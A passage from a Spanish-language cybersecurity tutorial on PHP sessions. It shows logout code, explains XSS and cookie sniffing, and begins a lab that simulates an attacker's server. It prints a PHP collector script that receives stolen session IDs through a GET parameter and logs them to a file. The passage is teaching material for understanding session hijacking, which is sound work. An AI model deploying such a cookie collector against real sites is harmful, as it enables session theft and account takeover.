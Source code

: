 ```php
?>
```

Por ejemplo, en este caso la variable de sesión por defecto es `PHPSESSID`

![image-20210131164900677](/Ciberseguridad-PePS/assets/img/validacion/image-20210131164900677.png)

Para poder desconectar a un usuario se usa el método `session_destroy();`. Crea el archivo `logout.php`

```php
<?php
//logout.php
session_start();
session_unset();
session_destroy();
//redirigimos a login.php
header('Location: login.php');

```

Esta pequeña pieza de información es importantísima **desde el punto de vista de la ciberseguridad** pues se puede producir un robo de sesión como se muestra en el siguiente punto.

### Robo de sesión - Puesta en práctica

Supongamos que  nuestra página es vulnerable a un ataque [XSS](https://owasp.org/www-community/attacks/xss/) (este tipo de ataque se encuentra dentro de los Top 10 según la [OWASP](https://owasp.org/www-project-top-ten/))

Durante el funcionamiento normal, las *cookies* se envían en los dos sentidos entre el servidor (o grupo de servidores en el mismo  dominio) y el ordenador del usuario que está navegando. Dado que las *cookies* pueden contener información sensible (nombre de usuario, un testigo  utilizado como autenticación, etc.), sus valores no deberían ser accesibles desde otros ordenadores. Sin embargo, las *cookies* enviadas sobre sesiones HTTP normales son visibles a todos los usuarios que pueden escuchar en la red utilizando un *[sniffer](https://es.wikipedia.org/wiki/Sniffer)* de paquetes. Estas *cookies* no deben contener por lo tanto información sensible. Este problema se puede **solventar mediante el uso de [https](https://es.wikipedia.org/wiki/Https)**, que invoca [seguridad de la capa de transporte](https://es.wikipedia.org/wiki/Transport_Layer_Security) para cifrar la conexión ya que de lo contrario se pueden sufrir ataques por medio de [https://es.wikipedia.org/wiki/Ataque_de_intermediario](https://es.wikipedia.org/wiki/Ataque_de_intermediario)

**Vamos a ver un secuestro de sesión en directo.**

Para ello es necesario que creemos una imagen docker que responda a la url [127.0.0.1:8081](127.0.0.1:8081) y que va a simular al atacante.

En esta imagen crearemos una página llamada `robo-de-sesion.php` con el siguiente contenido:

```php
<?php
$session_robada = $_GET['session_robada'] ?? "";
$session_robada .= "\n";
$fichero = 'data/sessions.txt';
// Abre el fichero para obtener el contenido existente
$actual = file_get_contents($fichero);
// Escribe el contenido al fichero
file_put_contents($fichero, $session_robada, FILE_APPEND);
```
